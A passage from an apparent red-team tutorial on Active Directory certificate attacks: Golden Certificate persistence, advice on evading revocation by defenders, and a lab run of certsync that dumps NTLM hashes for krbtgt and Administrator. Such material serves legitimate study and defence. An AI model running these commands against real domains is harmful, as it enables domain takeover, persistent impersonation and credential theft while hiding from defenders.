 ```powershell
  Base64(key)              :  c5brmZK4ioq20251NDOs8w==
  ASREP (key)              :  667FB15683B166E0330E8D3DFE38620E
```

Done, now we are Domain Admin of the environment!!! Just make sure to keep that **.pfx** with you forever, and you will always be able to issue a certificate in the name of any user and impersonate them in the environment.

- <span style="color: red;">OPSEC NOTES</span>: When generating certificates with Certipy/fy, they will be saved in the "**Issued Certificates**" section in **certsrv** within the CA, which gives defenders the possibility of revoking your certificate, which is a problem. However, by using the **Golden Certificate**, you will be generating certificates locally, and they won't be saved in **certsrv**, making it MUCH harder for defenders to revoke your certificate 🔥🧑‍🚒.
- I took the screenshot below after following the steps above, and as we can see, the certificate I issued is not visible within the CA.

![golden](/assets/golden.png)

## Certsync against DCsync

Okay, but almost 98% of red teamers are familiar with **DCSync** and feel comfortable using it. So, what advantages does **CertSync** have?

Well, DCSync exploits the **MS-DRSR** protocol, which is used to replicate data from Active Directory, allowing an attacker to extract credentials directly from a Domain Controller.

The point is that DCSync also uses the **DSRUAPI**, which is monitored and often restricted by an EDR. In the case of a mature environment, you won't be able to carry out this attack. That's where CertSync shines, as it doesn't require the **DSRUAPI** or a Domain Admin, only a user who is an administrator of the CA.

**CertSync** is a technique for remotely dumping the NTDS using the two techniques we covered earlier, such as Golden Certificate and UnPAC-The-Hash, and it does this in a few steps:
- Dumps the list of users, CA information, and also the CRL via LDAP.
- Dumps the CA certificate and its private key (.p12 - Golden Certificate).
- Locally forges a certificate for each user.
- Performs UnPAC on all these certificates to obtain the NTLM hash.

Let's reproduce this in the lab. I will be using my user, which is an administrator of the CA that we will be attacking.

```bash
$ certsync -u paulo.victor -p 'Senha@123' -d corp.local -dc-ip 10.0.0.10 -ns 10.0.0.10
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 16 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(10.0.0.10)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
CORP.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:75431702DEEB8199026DCFCA6EA5C950:::
CORP.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:DDC84A0B28826D6CD4738C5852F38E81:::
....
```
